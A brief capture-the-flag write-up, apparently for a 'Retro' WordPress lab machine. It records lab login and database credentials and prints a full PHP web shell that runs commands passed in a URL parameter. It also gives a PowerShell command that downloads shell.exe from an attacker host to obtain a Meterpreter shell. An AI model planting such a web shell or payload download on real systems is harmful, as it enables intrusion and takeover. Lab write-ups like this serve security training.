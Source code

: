 Found valid credentials for the login page (http://10.10.35.103/retro/wp-login.php), username found by the character and password by the avatar:

wade:parzival

Got command execution using the following script:

``` php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.31.71:8000/shell.exe','shell.exe')"` - Attempting to get a shell to the machine.

Successfully got a Meterpreter shell.

Found DB name, username and password:

wordpress567:wordpressuser567:YSPgW[%C.mQE